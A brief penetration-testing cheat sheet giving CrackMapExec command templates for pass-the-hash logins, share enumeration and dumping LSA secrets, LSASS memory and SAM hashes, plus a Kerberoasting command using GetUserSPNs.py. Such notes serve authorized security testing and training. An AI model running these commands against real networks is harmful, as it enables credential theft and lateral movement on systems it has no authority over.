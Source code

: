 Needs NTLMv1 to pass a hash around

## CrackMapExec

```cme-smb-pass
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>
```

```cme-smb-hash
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -H <hash> --local-auth
```

```cme-smb-hash-enum-shares
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -H <hash> --local-auth --shares
```

```cme-smb-hash-lsa-dump
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -H <hash> --local-auth --lsa
```

```cme-smb-hash-lsas-dump-lsassy
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -H <hash> --local-auth -M lsassy
```

```cme-smb-hash-sam-dump
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -H <hash> --local-auth --sam
```

```cme-db
cmedb
```

## CME Modules

```cme-smb-modules
crackmapexec smb -L
```

## SAM Hashes

Important hashes to uuse for things like pass the hash, can be found by lsa and sam dumps by cme

## Kerberoasting

Uses service accounts, gets TGS signed by

```get-TGS
sudo GetUserSPNs.py <DOMAIN>/<User> -dc-ip <DomainControllerIP> -request
```


